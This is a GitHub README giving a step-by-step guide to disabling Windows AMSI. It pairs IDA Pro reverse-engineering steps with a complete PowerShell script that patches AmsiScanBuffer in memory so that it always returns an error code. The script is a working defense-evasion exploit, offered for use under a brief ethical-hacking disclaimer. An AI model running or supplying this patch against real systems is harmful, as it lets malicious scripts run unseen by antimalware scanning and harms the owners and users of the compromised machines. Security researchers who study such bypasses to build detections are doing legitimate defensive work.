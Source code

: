 # Amsi-Patch-Updated-2025  
### **Bypass AMSI (Antimalware Scan Interface) in PowerShell**  

This guide shows how to dynamically patch the `AmsiScanBuffer` function in PowerShell to bypass AMSI, enabling the execution of scripts without being detected. This technique is useful for penetration testing, security research, and other ethical hacking practices.  

> **Disclaimer:** Always use these techniques in controlled, legal environments. Misuse may lead to legal and ethical consequences.
![image](https://github.com/user-attachments/assets/17d63b89-01ae-428a-aa13-812deed92961)

---

## **Steps to Patch AMSI in PowerShell**

### 1. **Reverse Engineer `amsi.dll` using IDA Pro**  
If you have a free version of IDA Pro (version 9.0 or below), follow these steps:  

- **Open `amsi.dll` in IDA Pro.**  
  Load the `amsi.dll` file and allow IDA to analyze the binary.
  
- **Navigate to Exports Tab.**  
  Press `Shift+F12` to open the **Exports** tab and locate the `AmsiScanBuffer` function.  
  Double-click `AmsiScanBuffer` to jump to its code.

- **Identify the Critical Code.**  
  Look for the key logic in `AmsiScanBuffer`. This is the part that handles the scanning process.  
  You should see something like this in the disassembly (example below):  

  ![Critical Code Example](https://github.com/user-attachments/assets/0ca7316e-0264-46a2-8e80-d9e2c0d24179)

- **Trace the Function Prologue.**  
  Follow the call chain of `AmsiScanBuffer` to understand how it interacts with other functions. The red arrow in the IDA disassembly highlights where the critical code lies.

- **Detect Control Flow Guard (CFG):**  
  Look for `_guard_dispatch_icall`. This is used for Control Flow Guard and helps prevent malicious modifications. You'll need to patch around this.

### 2. **Locate the Patch Area**  
- **Find where `AmsiScanBuffer` returns a result.**  
  This is the point where the AMSI scan function provides its result to the caller.  
- **Modify the return value.**  
  Rather than allowing a normal scan, modify it to always return an error code like `0x80070057` (invalid parameter), which will prevent AMSI from scanning.

### 3. **Create a PowerShell Patch**  

Here is how to write the PowerShell script that patches `AmsiScanBuffer`:  

- **Load the `amsi.dll` library.**  
  Use `LoadLibrary` to get a handle to `amsi.dll`.  
- **Locate the `AmsiScanBuffer` function.**  
  Use `GetProcAddress` to find the address of `AmsiScanBuffer`.
- **Change memory protection.**  
  Use `VirtualProtect` to modify the memory protection of the `AmsiScanBuffer` function, ensuring it’s writable.
- **Overwrite the function.**  
  Patch the function to return the error code `0x80070057` (invalid parameter) instead of performing the normal scan.

### 4. **Run the PowerShell Script to Bypass AMSI**  

Once the script is ready:  

- **Save and execute the PowerShell script.**  
  Running the script will patch `AmsiScanBuffer`, bypassing AMSI and allowing you to execute PowerShell scripts without being detected.
  
- **Result:**  
  AMSI will fail to scan scripts, enabling execution without triggering an alert.

---

## **PowerShell Script Example**  

Here's an example of how you can patch `AmsiScanBuffer` using PowerShell:  

```powershell
$Kernel32 = Add-Type -MemberDefinition @"
    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern IntPtr LoadLibrary(string lpLibFileName);
    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern bool VirtualProtect(IntPtr lpAddress, uint dwSize, uint flNewProtect, out uint lpflOldProtect);
"@ -Name "Kernel32" -Namespace "Win32" -PassThru

$AmsiDll = $Kernel32::LoadLibrary("amsi.dll")
$AmsiScanBuffer = $Kernel32::GetProcAddress($AmsiDll, "AmsiScanBuffer")

# Ensure we successfully located AmsiScanBuffer
if ($AmsiScanBuffer -eq [IntPtr]::Zero) {
    Write-Host "Failed to find AmsiScanBuffer!"
    exit
}

# Patch: MOV EAX, 0x57 000780, RET
$patch = [Byte[]](0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)

[UInt32]$oldProtect = 0
$Kernel32::VirtualProtect($AmsiScanBuffer, [UInt32]6, 0x40, [Ref]$oldProtect)
[System.Runtime.InteropServices.Marshal]::Copy($patch, 0, $AmsiScanBuffer, $patch.Length)

Write-Host "AMSI Patched Successfully!"


## License

This project is licensed under the MIT License. See the [LICENSE](./LICENSE) file for details.

